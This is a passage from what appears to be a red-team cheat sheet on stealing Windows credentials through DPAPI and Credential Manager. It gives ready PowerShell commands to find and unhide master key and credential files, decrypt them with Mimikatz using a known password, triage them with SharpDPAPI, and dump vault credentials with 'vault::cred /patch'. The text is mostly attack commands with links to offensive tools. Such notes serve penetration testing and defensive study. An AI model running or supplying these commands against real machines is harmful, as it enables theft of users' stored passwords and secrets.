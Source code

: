 Master keys locations (hidden files, need `-Force`):

```
PS > ls -fo C:\Users\snovvcrash\AppData\Roaming\Microsoft\Protect\ (%appdata%\Microsoft\Protect\)
PS > ls -fo C:\Users\snovvcrash\AppData\Local\Microsoft\Protect\ (%localappdata%\Microsoft\Protect\)
```

Credential files locations (hidden files, need `-Force`):

```
PS > ls -fo C:\Users\snovvcrash\AppData\Roaming\Microsoft\Credentials\ (%appdata%\Microsoft\Credentials\)
PS > ls -fo C:\Users\snovvcrash\AppData\Local\Microsoft\Credentials\ (%localappdata%\Microsoft\Credentials\)
```

Unhide files:

```
PS > cmd /c "attrib -h -s 00ff00ff-00ff-00ff-00ff-00ff00ff00ff
PS > cmd /c "attrib -h -s 00ff00ff00ff00ff00ff00ff00ff00ff"
```



### Mimikatz

* [https://www.harmj0y.net/blog/redteaming/operational-guidance-for-offensive-user-dpapi-abuse/](https://www.harmj0y.net/blog/redteaming/operational-guidance-for-offensive-user-dpapi-abuse/)

Decrypt manually offline with known plaintext password:

```
mimikatz # dpapi::masterkey /in:00ff00ff-00ff-00ff-00ff-00ff00ff00ff /sid:S-1-5-21-4124311166-4116374192-336467615-500 /password:Passw0rd!
mimikatz # dpapi::cache
mimikatz # dpapi::cred /in:00ff00ff00ff00ff00ff00ff00ff00ff
```



### SharpDPAPI

* [https://github.com/GhostPack/SharpDPAPI](https://github.com/GhostPack/SharpDPAPI)
* [https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-SharpDPAPI.ps1](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-SharpDPAPI.ps1)

```
PS > .\SharpDPAPI.exe triage /password:Passw0rd!
PS > .\SharpDPAPI.exe machinetriage [/password:Passw0rd!]
```




## Credential Manager



### Mimikatz

```
Cmd > .\mimikatz.exe "privilege::debug" "vault::cred /patch" "exit"
```
